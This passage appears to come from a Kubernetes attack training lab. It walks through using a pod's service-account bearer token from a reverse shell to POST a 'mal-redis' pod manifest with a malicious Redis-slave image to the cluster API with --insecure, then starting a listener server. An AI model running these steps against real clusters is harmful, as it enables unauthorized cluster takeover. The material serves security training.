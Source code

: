 Change the value of `LISTENER_IP` with that of Server IP that can be fetched by running `serverip`

* In the reverse shell, if the `pwd` is `/run/secrets/kubernetes.io/serviceaccount` you will have to navigate to the `tmp` directory. 

```bash
cd /tmp
```

###### root user of the pod will not have permission to create/edit files in `/run/secrets/kubernetes.io/serviceaccount`

* Copy the edited JSON from the previous step and paste it in `/tmp` directory.

```bash
# Copy the JSON value you edited, please don't copy the one below
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              ... 
              ...
              ...
              ...
              }
            ]
        }]
    }
}
EOF
```

* Check if `mal-redis.json` has been created in '/tmp/'

```bash
ls
```

* Create the `malicious-redis` pod

```bash
curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XPOST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d@mal-redis.json --insecure
```

* In the other tab, navigate to `K8s-Cluster-Attack` directory and run the `tornado server`.

```bash
cd /root/container_training/Kubernetes/K8s-Cluster-Attack

./tornado_server.py
```
